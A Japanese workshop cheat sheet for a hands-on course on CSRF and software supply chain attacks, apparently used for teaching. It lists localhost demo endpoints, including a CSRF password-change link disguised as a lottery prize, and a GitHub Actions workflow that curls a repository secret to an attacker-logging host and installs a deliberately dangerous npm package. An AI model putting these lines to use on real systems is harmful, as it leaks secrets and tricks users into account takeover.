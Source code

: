 # チートシート

## おおまかな流れ

1. ウェブセキュリティの概要
   1. ユーザーの資産の列挙
   2. 攻撃方法の列挙（そのためのフレームワーク）
   3. 主要な脆弱性の概説
2. CSRF の例
   1. CWE での説明
   2. 他のフレームワークでの位置づけ
   3. ハンズオン： GET の例
   4. ハンズオン: cookie の説明と GET ログインの例
   5. ハンズオン： POST の例
   6. ハンズオン： CSRF TOKEN
   7. ハンズオン： 同一オリジンポリシーの確認
   8. ハンズオン： SameSite Cookie
   9. ハンズオン： Custom Header
   10. アプリケーションフレームワークでの対策
   11. まとめ：ブラウザへの注目
3.  ソフトウェア・サプライチェーン
   1. ハンズオン：ソフトウェア・サプライチェーンに乗っかってみる
      1. HonKit
      2. Amazon S3
      3. GitHub Actions
   2. ハンズオン： GitHub Actions Secret の実験
   3. 手元での実験
   4. まとめ：対処の難しさ

## エンドポイント一覧
以下のリポジトリを clone してください
https://github.com/sasakiy84/csrf-demo

1. シナリオ１
  1. この記事について、より詳細に書かれた内容が >> [ここ](http://localhost:3000/1-get-board?text=%E7%A7%81%E3%81%AF%E5%91%BC%E5%A3%B0%E5%B8%82%E5%BD%B9%E6%89%80%E3%82%92%E7%88%86%E7%A0%B4%E3%81%97%E3%81%BE%E3%81%99) << にあります
  1. http://localhost:3000/1-get-board?text=%E7%A7%81%E3%81%AF%E5%91%BC%E5%A3%B0%E5%B8%82%E5%BD%B9%E6%89%80%E3%82%92%E7%88%86%E7%A0%B4%E3%81%97%E3%81%BE%E3%81%99
1. GET ログイン確認
   1. http://localhost:3000/2-get-confirm
2. GET ログイン
   1. http://localhost:3000/2-get-login?name=wowow&password=whooo!
3. GET パスワード変更
   1. http://localhost:3000/2-get-password-change?newPassword=yourNewPassword
4. シナリオ2
   1. おめでとうございます！抽選に当選しました！！以下のリンクから景品を選んでください！！！！ >> [当選品選択ページ](http://localhost:3000/2-get-password-change?newPassword=evilPassword) <<
5. POST パスワード変更
   1. http://localhost:3000/3-post-password-change-dangerous
6. POST パスワード変更 evil
   1. http://127.0.0.1:4000/3-post-password-change-dangerous
7. CSRF Token パスワード変更
   1. http://localhost:3000/3-post-password-change-csrf-token
8. CSRF Token パスワード変更 evil
   1. http://127.0.0.1:4000/3-post-password-change-csrf-token
9. 同一オリジンポリシー XHR
   1. http://localhost:3000/3-post-password-change-with-xml-http-request
10. 同一オリジンポリシー XHR evil
   1. http://127.0.0.1:4000/3-post-password-change-with-xml-http-request
11. 同一オリジンポリシー iframe
   1. http://localhost:3000/3-post-password-change-with-iframe
12. 同一オリジンポリシー iframe evil
   1. http://127.0.0.1:4000/3-post-password-change-with-iframe
13. samesite cookies のセット
   1. http://localhost:3000/5-samesite-attr
14. samesite cookies の確認
   1. http://localhost:3000/5-check-cookies
15. ヘッダーの確認
   1. http://localhost:3000/4-prepare-custom-header
16. 独自ヘッダーのクロスオリジンリクエスト
   1. http://127.0.0.1:4000/4-prepare-custom-header


samesite 確認用の POST フォーム

<div>
<form id="form" action="http://localhost:3000/5-check-cookies" method="post">
  <button type="submit">submit</buttion>
</form>
</div>

## CSRF 参考リンク
- [Rails の CSRF 対策](https://railsguides.jp/security.html#csrf%E3%81%B8%E3%81%AE%E5%AF%BE%E5%BF%9C%E7%AD%96)
- [Laravel の CSRF 対策](https://laravel.com/docs/11.x/csrf)
- [Express の CSRF 対策](https://github.com/expressjs/csurf)

## honkit
- https://honkit.netlify.app/

## GitHub Actions
```yml
# .github/workflows/deploy.yaml
name: CI

on:
  push:
    branches:
      - master
      - main
  workflow_dispatch:

permissions:
  contents: write

env:
  AWS_ACCESS_KEY_ID: ${{ secrets.AWS_ACCESS_KEY_ID }}
  AWS_SECRET_ACCESS_KEY: ${{ secrets.AWS_SECRET_ACCESS_KEY }}

jobs:
  deploy:
    runs-on: ubuntu-22.04
    steps:
    - name: Checkout
      uses: actions/checkout@v4

    - name: Setup Node
      uses: actions/setup-node@v4
      with:
        node-version: '20'
    - name: Install dependencies
      run: npm install

    - name: Build Honkit
      run: npx honkit build
   
    - name: Upload to S3
      run: aws s3 sync --delete --region ap-northeast-1 ./_book s3://YOUR_PUBLISH_BUCKET
```

## GitHub secret 実験
自分の名前を `TEST_SECRET` という変数に入れておく

```yaml
# .github/workflows/secret-test.yaml
name: test 1
on:
  workflow_dispatch:

env:
  TEST_SECRET: ${{ secrets.TEST_SECRET }}

jobs:
  test1:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v3
      - run: echo $PWD
      - run: echo $TEST_SECRET
      - run: curl http://attacker-logging-endpoint.sasakiy84.net/aaa/$TEST_SECRET
      - run: npm i sasakiy84/dangerous-npm-repository-test
```

問題のリポジトリ
https://github.com/sasakiy84/dangerous-npm-repository-test/tree/main


以下のコマンドで、ローカルに依存関係を追加する。
```bash
npm i sasakiy84/dangerous-npm-repository-test
```

そして、`node_modules/dangerous-npm-repository-test`　の中身を見る

## ソフトウェア・サプライチェーンの参考リンク
1. codecov
  1. https://about.codecov.io/security-update/
2. codecov のメルカリの発表
  1. https://about.mercari.com/press/news/articles/20210521_incident_report/
3. npm の lifecycle script
  1. https://docs.npmjs.com/cli/v10/using-npm/scripts
4. 実際の npm のライフサイクルスクリプトを使った攻撃事例
  1. https://www.bleepingcomputer.com/news/security/researcher-hacks-over-35-tech-firms-in-novel-supply-chain-attack/
